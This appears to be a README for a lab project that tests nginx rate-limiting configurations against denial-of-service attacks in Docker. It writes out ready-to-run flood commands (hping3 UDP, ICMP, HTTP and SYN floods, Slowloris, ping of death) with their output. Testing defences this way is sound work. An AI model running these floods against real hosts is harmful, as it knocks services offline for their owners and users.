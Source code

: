 # DDosBlock 

## Prepare
Change nginx conf file in docker-compose.yml and see DDos attacks and nginx blocks results:  
From: nginx_0.conf  
To:   
    - nginx_1.conf - limit request per second from one IP   
    - nginx_2.conf - limit sessions quantity from one IP   
    - nginx_3.conf - limit swnd data time   
    - nginx_4.conf - limit upstream connections   

## Run
Run every time for rebuild and restart containers
```
docker-compose down
docker-compose build
docker-compose up
```

## UDP Flood 
`
hping3 --udp -i u100  www.condelnet.com -p 80
`

Result:
```
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=63120 seq=127209
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=3611 seq=133236
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=10108 seq=139733
ICMP Port Unreachable from name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=16206 seq=145831
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=22227 seq=151852
--- www.condelnet.com hping statistic ---
152908 packets transmitted, 30 packets received, 100% packet loss
round-trip min/avg/max = 0.9/5.7/8.9 ms
```

## ICMP flood 
`
hping3 -1 -i u100  www.condelnet.com -p 80
`

Result:
```
len=28 ip=192.168.56.4 ttl=64 id=5901 icmp_seq=53451 rtt=5.4 ms
len=28 ip=192.168.56.4 ttl=64 id=5914 icmp_seq=53452 rtt=5.3 ms
len=28 ip=192.168.56.4 ttl=64 id=5929 icmp_seq=53453 rtt=5.2 ms
--- www.condelnet.com hping statistic ---
53554 packets transmitted, 53454 packets received, 1% packet loss
round-trip min/avg/max = 1.6/18.9/1017.3 ms
```

## HTTP flood 
`
hping3 -i u100  www.condelnet.com
`

Result:
```
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88398 win=0 rtt=4.8 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88399 win=0 rtt=4.7 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88400 win=0 rtt=5.0 ms
--- www.condelnet.com hping statistic ---
88464 packets transmitted, 88401 packets received, 1% packet loss
round-trip min/avg/max = 1.2/18.7/1030.9 ms
```

## Slowloris 
```
pip install Slowloris
slowloris localhost -s 250 -ua
```

Result:
```
nginx_1      | 2022/10/27 23:10:53 [warn] 33#33: 50 worker_connections are not enough, reusing connections

nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?517 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Safari/602.1.50" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?995 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?1896 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Edge/14.14393Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?904 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
```



nginx_1.conf
Result:
503 Service Temporarily Unavailable 
nginx/1.21.6 
```
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 2022/10/28 13:33:23 [error] 37#37: *251 limiting requests, excess: 0.584 by zone "one", client: 192.168.56.1, server: localhost, request: "GET / HTTP/1.1", host: "localhost"
```



## SYN flood 
`
hping3 -S -q -n -i u100  www.condelnet.com -p 80
`

Result:
```
HPING www.condelnet.com (eth0 192.168.56.4): S set, 40 headers + 0 data bytes
--- www.condelnet.com hping statistic ---
728994 packets transmitted, 728954 packets received, 1% packet loss
round-trip min/avg/max = 0.6/10.4/1014.0 ms
```

## Ping of Death 
`
ping -l 65509 www.condelnet.com
`

Result:
```
ping: cannot set preload to value greater than 3: 65509
```
